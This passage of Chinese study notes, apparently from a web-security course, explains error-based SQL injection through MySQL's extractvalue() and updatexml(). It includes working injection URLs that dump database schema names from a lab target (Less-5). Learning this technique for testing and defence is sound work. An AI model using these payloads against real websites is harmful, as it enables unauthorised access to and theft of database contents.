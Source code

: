 
**2、extractvalue()函数**<br />基本格式：
```sql
ExtractValue (xm1_frag，xpath_expr)
```


`**extractvalue()**`函数接收两个字符串参数，分别是`xml标记片段`和`xpath表达式xpath_expr`，第一个参数就是为了上传一个xml文档，第二个参数就是用xpath路径去查找路径，而**extractvalue报错注入 就是通过在函数中写入不符合语法格式的xpath达到报错的目的，并且通过拼接sql注入语句从而通过报错查询并显示我们想要查询的内容**。

查询格式：
```sql
select username from security.user where id=1 and (extractvalue('anything',concat('~',(select database())))) 
```
 	这里通过`concat`拼接sql语句并且由于我们第二个参数的位置写入的xpath是不符合语法格式的所以会产生报错，从而达到我们想要查询的内容

查看数据库
```sql
http://192.168.1.8/Less-5/?id=1' and (extractvalue('anything',concat('~',(select group_concat( schema_name) from information_schema.schemata))))  --+
```
![image.png](../../_img/02-Web安全/01-基础知识/1671092796144-9fe0cb95-6007-4e04-abfa-16dde2adeb73.png)

**3、updatexml()函数**<br />updatexml报错注入和extractvalue报错注入的原理差不多，都是利用插入不符合函数格式的语句并拼接查询语句从而通过函数报错达到查询内容的目的。

基本格式：
```sql
updateXIML (xml_target,xpath_expr,new_xml)

xml_taeget：是我们需要操作的xml片段；
xpath_expr：和上面的一样，是需要更新的路径；
new_xml：是更新后的的xml字段；
```

查询格式：
```sql
select username from security.user where id=1 and (updatexml('anything',concat('~',(sql语句)),'anything'))
```

查看数据库：
```sql
http://192.168.1.8/Less-5/?id=1' and (updatexml('anything',concat('~',(select group_concat( schema_name) from information_schema.schemata)),'anything'))  --+
```
![image.png](../../_img/02-Web安全/01-基础知识/1671092792794-78e8d750-4134-4ffe-a2de-feaa83757ad5.png)
